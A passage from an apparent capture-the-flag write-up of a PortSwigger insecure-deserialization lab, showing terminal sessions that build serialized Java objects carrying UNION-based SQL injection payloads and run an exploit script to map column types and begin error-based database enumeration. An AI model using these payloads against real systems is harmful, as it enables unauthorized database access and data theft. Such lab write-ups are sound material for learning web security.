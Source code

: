 5th column is integer.

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:56:00
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:56:40
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAVicgVU5JT04gQUxMIFNFTEVDVCAnc3RyaW5nMScsJ3N0cmluZzInLCdzdHJpbmczJywxLDEsJ3N0cmluZzYnLCdzdHJpbmc3Jywnc3RyaW5nOCctLSAt
Deserialized id: ' UNION ALL SELECT 'string1','string2','string3',1,1,'string6','string7','string8'-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:56:41
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "string7"
  Position: 99
```

7th column is integer.

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:56:50
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:57:14
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQATicgVU5JT04gQUxMIFNFTEVDVCAnc3RyaW5nMScsJ3N0cmluZzInLCdzdHJpbmczJywxLDEsJ3N0cmluZzYnLDEsJ3N0cmluZzgnLS0gLQ==
Deserialized id: ' UNION ALL SELECT 'string1','string2','string3',1,1,'string6',1,'string8'-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:57:16
╰─○ python3 exploit.py
Internal Server Error
java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser
```

- Accepting data type string column: 1, 2, 3, 6, 8

**Now, since the data type error is reflected to the web page, we can leverage that to enumerate the entire database. It's also known as Error-based SQL injection:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:02:52
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:05:05
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAQycgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCwnc3RyaW5nNCcsTlVMTCxOVUxMLE5VTEwsTlVMTC0tIC0=
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,'string4',NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:05:07
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "string4"
  Position: 70
```
